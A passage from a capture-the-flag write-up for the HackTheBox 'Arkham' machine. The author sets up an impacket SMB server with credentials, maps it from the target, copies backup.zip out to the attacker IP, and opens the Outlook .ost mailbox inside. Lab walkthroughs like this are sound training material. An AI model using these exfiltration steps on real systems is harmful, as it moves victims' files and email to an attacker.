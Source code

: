 I tried to get the file to my Kali machine using an FTP server, didnt work, so i used `impacket-smbserver` instead.
We need to setup credentials to access the share otherwise the target machine will block the connection:

```bash
impacket-smbserver -smb2support -username htb -password htb arkham .
```

Next we connect to the share from the target using:

```cmd
net use \\10.10.14.61\arkham /u:htb htb
```

Now we can copy the `backup.zip` file to the Kali machine with:

```cmd
copy backup.zip \\10.10.14.61\\arkham
```

![copy-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/copy-33.png)

Lets analyze this file. If we list the contents of the archive with `unzip -l backup.zip` we can see:

![ost-34](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/ost-34.png)

We have an `.ost` file, which is a Microsoft Outlook email folder. we can open this on linux with `readpst`, which reads both `pst` as well as `ost` files.

```bash
unzip backup.zip
readpst alfred@arkham.local.ost
```
